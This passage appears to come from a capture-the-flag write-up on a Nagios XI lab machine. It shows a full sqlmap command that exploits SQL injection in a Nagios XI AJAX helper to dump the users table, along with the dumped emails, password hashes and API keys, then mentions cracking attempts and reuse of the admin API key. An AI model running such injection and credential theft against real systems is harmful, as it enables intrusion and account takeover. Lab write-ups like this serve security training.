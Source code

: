     | xi_mibs                     |
    | xi_options                  |
    | xi_sessions                 |
    | xi_sysstat                  |
    | xi_usermeta                 |
    | xi_users                    |
    +-----------------------------+
    ...[snip]...



I'll dump the `xi_users` table:



    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi -T xi_users --dump
    ...[snip]...
    Database: nagiosxi
    Table: xi_users
    [2 entries]
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
    | user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
    | 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
    | 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1715201011   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 7              | 1699697433           |
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+



There's two users, svc and admin. Neither hash cracks in `hashcat` with
`rockyou.txt`. But there is an API key for each user as well.

#### Admin API POC

I'll go back to the original API example from [the PDF
above](#api-documentation), and with admin's API key it works!

